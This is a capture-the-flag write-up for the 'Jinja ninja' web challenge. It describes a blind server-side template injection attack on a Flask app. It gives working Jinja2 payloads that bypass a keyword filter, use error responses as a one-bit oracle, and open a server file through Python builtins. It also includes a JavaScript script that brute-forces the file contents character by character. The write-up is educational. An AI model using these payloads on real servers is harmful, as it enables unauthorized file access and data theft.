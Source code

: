 # Jinja ninja

- Road to Valhalla part 2
- hard

In part 1 of Road to Valhalla, you managed to capture another drawing, with a note on it.

> If you seek to find Valhalla, visit this website, and buy your ticket now: https://jinja-ninja.secchallenge.crysys.hu

As you check the website, it feels a bit fishy. As a citizen of the wastes, you feel it as your duty to check if the travel agency is valid. Find a way to access files on the server you might find coordinates of Valhalla.

https://jinja-ninja.secchallenge.crysys.hu

_author: Pepe_

## Notes

<del>**I could not solve this challenge**</del>

`Jinja` instantly triggers me to think about SSTI and Flask. Sadly, I could not find *ANY* reflection on the webpage we are given, it just returned the same page no matter what I've sent to it.

(Just solved it after writing those lines above)

Basically, we don't have a reflection, so we can't simply confirm if we have a SSTI, but the name is a strong hint to that.

For most form data, you get `Sorry site under construction booking is not available.` as a response.

I've tried injecting `{{5*5}}` as any parameter, and I've got `The WAF catched that one.` - so some part of that is filtered, and it turns out that `{{` and `flag` are forbidden in the input.

After googling `flask blind ssti` I've found [this page](https://gist.github.com/camas/d11da038562e6e4547e9f5669d2f6cfe), witch details a method of bypassing the `{{` filter.

That page's method kinda works here, but we still don't get anything back. I've tried `{% for i in range(5/0) %}1{% endfor %}` and got `Something went wrong, try again later!` - so we can leak one bit of information at a time.

I was not sure where can the flag be, my initial guess was the `config` oject. `{% for i in range(5 if config else 5/0) %}1{% endfor %}` confirmed it exits, but it had only one key (`{% for i in range(5 if [config.keys()][1] else 5/0) %}1{% endfor %}`), and that was `ENV` (`{% for i in range(5 if config["ENV"]=="production" else 5/0) %}1{% endfor %}`).

From the same gist I've learned that I can get access to some of the globals, so I've tried opening the file `flag`. Bypassing the filtering for `flag` was trivial: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()) else 5/0) %}1{% endfor %}`

So we can just open the file! Let's check the first character: `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[0]=="c" else 5/0) %}1{% endfor %}` - `c` as we expected from the flag format.

I've took some time to get it's length by binary-searching from 500, and found it's 145. After that, I've wrote a script to use the previous tactic to get the full flag.

Sadly, my script (written in python) did not work for some reason, so I re-wrote it in JS and copy-pasted it in the console:

```js
const printable = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

async function solve(length = 145) {
    let FLAG = "";
    while (FLAG.length < length) {
        for (let c of printable) {
            let formData = new FormData();
            const payload = `{% for i in range(5 if get_flashed_messages.__globals__.__builtins__.open("FLAG".lower()).read()[${FLAG.length}]=="${c}" else 5/0) %}1{% endfor %}`;
            //console.log(payload);
            formData.append('name', payload);
            formData.append('email', '');
            formData.append('faction', '');
            formData.append('profession', '');
            formData.append('preferences', '');
            
            const resp = await fetch("submit",{body: formData,method: "post"})
            const text = await resp.text();
            if (text.includes("Sorry site under construction")) {
                FLAG = FLAG + c;
                console.log(FLAG);
                break;
            }
        }       
    }
}
```
And that just got me the flag...
